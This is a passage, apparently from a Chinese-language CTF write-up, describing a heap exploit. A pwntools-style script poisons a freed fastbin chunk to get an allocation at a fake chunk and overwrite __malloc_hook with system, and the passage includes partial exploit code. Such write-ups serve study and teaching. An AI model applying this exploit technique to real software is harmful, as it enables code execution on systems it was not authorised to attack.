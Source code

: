 ![upload successful](/images/pasted-85.png)

fake_chunk 再往后会覆盖 __malloc_hook ，如果往malloc_hook里面写入system的内容，就会实现malloc劫持。


![upload successful](/images/pasted-86.png)




```python
add(0,0x108)
add(1,0x108)
add(2,0x108)
free(0)

....

add(3,0x68)
free(3)
edit(3,0x8,p64(fake_chunk))

add(4,0x68) #申请到了原来的0&3号块
add(5,0x68) #申请到了一个新的块

pause()

p.interactive()

```
